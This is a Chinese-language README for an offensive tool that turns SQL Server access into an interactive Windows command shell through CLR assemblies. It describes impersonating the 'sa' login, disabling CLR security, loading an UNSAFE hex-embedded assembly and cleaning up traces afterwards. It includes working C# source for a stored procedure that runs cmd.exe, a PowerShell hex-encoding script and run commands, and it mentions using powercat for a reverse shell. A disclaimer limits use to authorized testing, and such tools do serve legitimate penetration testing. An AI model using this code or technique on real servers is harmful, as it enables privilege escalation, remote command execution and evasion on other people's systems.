


# SqlClrShell

**SqlClrShell** 是一款利用 SQL Server CLR 程序集实现操作系统命令交互执行的渗透测试工具。  
通过加载特制的托管 DLL（以十六进制形式嵌入），该工具在目标 SQL Server 上创建 CLR 存储过程，并获得一个交互式的系统命令 Shell。

> ⚠️ **免责声明**  
> 本工具仅供合法授权的安全测试和教育用途，请勿在未获明确授权的系统上使用。  
> 作者对使用者造成的任何直接或间接损失不承担法律责任。

## 原理概述

1. **模拟高权限登录名**  
   使用 `EXECUTE AS LOGIN = 'sa'`​ 将当前会话提权至 `sysadmin`，以便执行配置变更。
2. **启用 CLR 集成**  
   通过 `sp_configure`​ 开启 `clr enabled`​，并禁用 `clr strict security`（SQL Server 2017+ 需要），使数据库能够加载未签名的托管程序集。
3. **创建 CLR 程序集**  
   将预先编译好的 .NET DLL（实现自定义存储过程）转换为十六进制字符串，通过 `CREATE ASSEMBLY ... FROM 0x<hex> WITH PERMISSION_SET = UNSAFE` 直接加载，无需在目标主机上落地文件。
4. **创建存储过程**  
   基于导入的程序集创建存储过程 `dbo.cmdExec`，用于接收系统命令并返回输出。
5. **交互式命令执行**  
   程序进入命令行循环，每次调用 `dbo.cmdExec` 执行用户输入的命令，并将输出打印至终端。
6. **清理痕迹**  
   退出时自动删除创建的存储过程和程序集，恢复登录上下文。

## 环境要求

- 目标 SQL Server 需满足以下条件：

  - 当前 Windows 账户具备 `sysadmin`​ 角色，或能够成功执行 `EXECUTE AS LOGIN = 'sa'`。
  - 目标数据库的 `TRUSTWORTHY`​ 属性为 `ON`​（默认 `msdb` 已启用，也可使用其他符合条件的数据库）。
  - SQL Server 服务账户具有执行系统命令的权限（通常为本地服务或域账户）。

## 使用步骤

### 1. 编译工具

使用 Visual Studio 或 `csc`​ 编译项目（.NET Framework 4.6.1+ 推荐），生成 `SqlClrShell.exe`。

### 2. 运行

bash

```
SqlClrShell.exe -h <target> [-d <database>]
```

- ​ **-h**：目标 SQL Server 主机名或 IP（必选）
- ​ **-d**​：目标数据库（可选，默认为 `msdb`）

#### 示例

```bash
SqlClrShell.exe -h dc01.corp1.com
SqlClrShell.exe -h 192.168.1.100 -d master
```

运行成功后会出现交互提示符 `SQL>`​，输入任意 Windows 命令即可获取回显。  
输入 `EXIT` 退出并自动清理。

## 帮助信息

直接运行 `SqlClrShell.exe`（不带参数）会显示 Banner 和用法说明：

```text
 ____             ___    ____    ___           ____    __              ___    ___      
/\  _`\          /\_ \  /\  _`\ /\_ \         /\  _`\ /\ \            /\_ \  /\_ \     
\ \,\L\_\     __ \//\ \ \ \ \/\_\//\ \    _ __\ \,\L\_\ \ \___      __\//\ \ \//\ \    
 \/_\__ \   /'__`\ \ \ \ \ \ \/_/_\ \ \  /\`'__\/_\__ \\ \  _ `\  /'__`\\ \ \  \ \ \   
   /\ \L\ \/\ \L\ \ \_\ \_\ \ \L\ \\_\ \_\ \ \/  /\ \L\ \ \ \ \ \/\  __/ \_\ \_ \_\ \_ 
   \ `\____\ \___, \/\____\\ \____//\____\\ \_\  \ `\____\ \_\ \_\ \____\/\____\/\____\
    \/_____/\/___/\ \/____/ \/___/ \/____/ \/_/   \/_____/\/_/\/_/\/____/\/____/\/____/
                 \ \_\                                                                 
                  \/_/                                                                  

  SqlClrShell - Interactive SQL CLR Command Shell [RasAlGhul]
  Execute system commands via SQL Server CLR assemblies.

Usage:
  SqlClrShell.exe -h <target> [-d <database>]

Options:
  -h <target>    Target SQL Server hostname or IP (required)
  -d <database>  Target database (optional, default: msdb)

Example:
  SqlClrShell.exe -h dc01.corp1.com
  SqlClrShell.exe -h 192.168.1.100 -d master
```

## DLL 的十六进制字符串（不放心可自己生成）

使用以下 C# 代码（.NET Framework 类库）编译生成 `cmdExec.dll`：

```csharp
using System;
using System.Data.SqlTypes;
using System.Diagnostics;
using Microsoft.SqlServer.Server;

public class StoredProcedures
{
    [SqlProcedure]
    public static void cmdExec (SqlString execCommand)
    {
        Process proc = new Process();
        proc.StartInfo.FileName = @"C:\Windows\System32\cmd.exe";
        proc.StartInfo.Arguments = string.Format(@" /C {0}", execCommand);
        proc.StartInfo.UseShellExecute = false;
        proc.StartInfo.RedirectStandardOutput = true;
        proc.Start();

        SqlDataRecord record = new SqlDataRecord(
            new SqlMetaData("output", System.Data.SqlDbType.NVarChar, 4000)
        );
        SqlContext.Pipe.SendResultsStart(record);
        record.SetString(0, proc.StandardOutput.ReadToEnd().ToString());
        SqlContext.Pipe.SendResultsRow(record);
        SqlContext.Pipe.SendResultsEnd();

        proc.WaitForExit();
        proc.Close();
    }
}
```

编译完成后，用 PowerShell 将 DLL 转换为十六进制字符串（不包含 `0x` 前缀）：

```powershell
$assemblyFile = "C:\path\to\cmdExec.dll"
$stringBuilder = New-Object -Type System.Text.StringBuilder

$fileStream = [IO.File]::OpenRead($assemblyFile)
while (($byte = $fileStream.ReadByte()) -gt -1) {
    $stringBuilder.Append($byte.ToString("X2")) | Out-Null
}
$fileStream.Close()
$stringBuilder.ToString() -join ""
```

## 使用截图



结合powercat反弹shell



以上截图均为靶机截图
